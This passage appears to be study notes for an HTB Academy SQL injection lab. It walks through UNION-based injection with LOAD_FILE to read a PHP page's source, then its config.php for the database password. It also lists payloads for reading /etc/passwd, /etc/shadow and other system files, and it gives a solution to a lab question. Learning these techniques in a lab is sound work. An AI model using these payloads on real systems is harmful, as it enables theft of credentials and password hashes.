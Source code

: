 **Step 2: Read Target Application Source**
```sql
-- Read the current page source (search.php)
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

-- Expected output: PHP source code showing:
<?php
include "config.php";  // ← KEY FINDING!
if (isset($_GET['port_code'])) {
    $query = "SELECT * FROM ports WHERE code='" . $_GET['port_code'] . "'";
    // ... rest of code
}
?>
```

**Step 3: Analyze Source Code for Include/Require**
```php
// Common PHP include patterns to look for:
include "config.php";          // Database credentials  
require_once "database.php";   // Connection settings
include "../includes/db.php";  // Relative path includes
require "/etc/app/secrets.php"; // Absolute path includes
```

**Step 4: Read Configuration Files**
```sql
-- Read the included config file
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

-- Expected output: Database credentials
<?php
define('DB_HOST', 'localhost');
define('DB_USER', 'app_user');
define('DB_PASSWORD', 'secret_db_password_123');  // ← TARGET FOUND!
define('DB_NAME', 'application_db');
?>
```

**HTB Academy Question Solution:**
```sql
-- "Check the imported page to obtain the database password"

-- Step 1: Read search.php to find included file
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
-- Analysis: Find "include 'config.php'" statement

-- Step 2: Read config.php to get DB_PASSWORD  
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
-- Answer: Extract DB_PASSWORD value from PHP constants
```

### Common File Reading Targets

#### System Information
```sql
-- Linux system files
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -      # User accounts
cn' UNION SELECT 1, LOAD_FILE("/etc/shadow"), 3, 4-- -      # Password hashes (if permissions allow)
cn' UNION SELECT 1, LOAD_FILE("/etc/hosts"), 3, 4-- -       # Host configurations
cn' UNION SELECT 1, LOAD_FILE("/proc/version"), 3, 4-- -    # Kernel version
```
